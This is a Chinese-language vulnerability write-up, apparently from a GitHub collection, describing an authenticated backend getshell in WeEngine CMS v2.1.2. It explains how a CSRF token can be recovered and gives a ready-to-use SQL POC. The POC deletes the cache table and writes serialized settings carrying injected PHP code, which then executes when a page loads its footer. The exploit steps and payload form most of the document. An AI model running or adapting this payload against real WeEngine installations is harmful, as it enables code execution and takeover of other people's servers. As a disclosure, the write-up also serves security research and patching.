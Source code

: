 # 微擎cms v2.1.2 后台getshell

### 一、漏洞简介

需要登录后台，并且有高权限。

### 二、漏洞影响

v2.1.2

### 三、复现过程

这个洞首先需要一个高权账号。

问题出在模板解析这里(template.func.php)。

![](images/15897258713053.png)


attachurl_remote来自于后台的设置,但是有一层htmlspecialchars

![](images/15897258782548.png)


![](images/15897258820196.png)


但是恰巧微擎支持SQL操作,虽然有些绿化版本的把SQL提交按钮和TOKEN值隐藏了,但是由于微擎一个页面做了多个CASE,所以可以数据表优化处找到TOKEN

![](images/15897258890054.png)


这样就可以愉快的修改SQL了,然后会发现微擎存在一个缓存表,同时remote这边的设置做了序列化(其实这个也可以利用),就可以构造如下

**POC**


```sql
sql=DELETE from ims_core_cache;update ims_core_settings  set `value` ='a:5:{s:4:"type";i:1;s:6:"alioss";a:4:{s:3:"key";s:0:"";s:6:"secret";s:0:"";s:6:"bucket";N;s:8:"internal";s:1:"0";}s:3:"ftp";a:9:{s:3:"ssl";i:1;s:4:"host";s:9:"127.0.0.1";s:4:"port";s:2:"21";s:8:"username";s:4:"root";s:8:"password";s:4:"root";s:4:"pasv";i:0;s:3:"dir";s:10:"127.0.0.11";s:3:"url";s:28:"127.0.0.1?<?php echo 123; ?>";s:8:"overtime";i:0;}s:5:"qiniu";a:4:{s:9:"accesskey";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:3:"url";s:0:"";}s:3:"cos";a:6:{s:5:"appid";s:0:"";s:8:"secretid";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:5:"local";s:0:"";s:3:"url";s:0:"";}}' where `key`="remote";&token=9def73ec&submit=submit
```

最后刷新缓存然后打开有加载footer的页面就能getshell了

![](images/15897259122243.png)


![](images/15897259160510.png)


![](images/15897259205354.png)
